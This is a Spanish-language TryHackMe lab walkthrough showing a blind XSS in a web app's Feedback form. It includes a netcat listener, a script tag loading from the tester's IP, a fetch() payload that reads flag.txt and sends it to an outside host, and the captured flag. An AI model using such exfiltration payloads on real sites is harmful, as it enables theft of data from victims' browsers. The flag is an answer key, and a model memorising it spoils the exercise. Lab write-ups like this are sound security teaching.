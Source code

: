 ## Introducción

Este walkthrough describe el proceso para vulnerar una máquina en TryHackMe, identificando vulnerabilidades en una página web de stickers de gato y explotándolas para extraer la flag oculta.

## Paso 1: Exploración Inicial

Al acceder a la página web, encontramos dos pestañas principales:

- **Home**
![](Pasted%20image%2020250205154407.png)

- **Feedback**

![](Pasted%20image%2020250205154448.png)

La premisa inicial de TryHackMe nos proporciona la URL donde se encuentra la flag:

```
http://10.10.167.141:8080/flag.txt
```

![](Pasted%20image%2020250205154515.png)

## Paso 2: Intento de Bypass 401

Se intenta acceder a la flag directamente, pero nos encontramos con una autenticación 401. Se prueban diversos métodos de bypass de 401, incluyendo variaciones en la URL como:

```
http://10.10.167.141:8080/FLAG.txt
http://10.10.167.141:8080/Flag.Txt
```

Sin embargo, todos estos intentos resultan en errores 404 o 405, lo que hace imposible realizar el bypass por este método.

![](Pasted%20image%2020250205154558.png)
## Paso 3: Exploración de Feedback y Pruebas de XSS

En la pestaña **Feedback**, encontramos un cuadro de texto donde podemos ingresar datos. Se realizan pruebas de inyección de script, pero la inyección básica:

```
<script>alert(1)</script>
```

No genera ningún resultado. Antes de probar otros métodos, intentamos lo siguiente:

```
<script src="http://10.6.17.22:1234/"></script>
```

Con un listener activo en nuestra máquina:

```
nc -lvnp 1234
```

Obtenemos la siguiente respuesta:

```
listening on [any] 1234 ...
connect to [10.6.17.22] from (UNKNOWN) [10.10.167.141] 49642
GET / HTTP/1.1
Host: 10.6.17.22:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

Esto confirma que la inyección de script está funcionando.

## Paso 4: Explotación de XSS para Obtener la Flag

Sabemos que podemos ejecutar JavaScript dentro del navegador de la víctima. Procedemos con la siguiente consulta para extraer la flag:

```
<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.6.17.22:1234/?data=' + encodeURIComponent(data))
    })
    .catch(err => console.error(err));
</script>
```

Dejamos escuchando nuestro listener y recibimos la siguiente respuesta:

```
GET /?data=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1
Host: 10.6.17.22:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

## Paso 5: Decodificación de la Flag

La flag obtenida está en formato URL-encoded:

```
THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D
```

Al decodificarla, obtenemos la flag final:

```
THM{83789a69074f636f64a38879cfcabe8b62305ee6}
```

## Conclusión

Se ha vulnerado exitosamente la máquina explotando una inyección de JavaScript en la funcionalidad de **Feedback**, lo que permitió extraer la flag desde `flag.txt` en el servidor. Esto demuestra la importancia de mitigar ataques de XSS en aplicaciones web.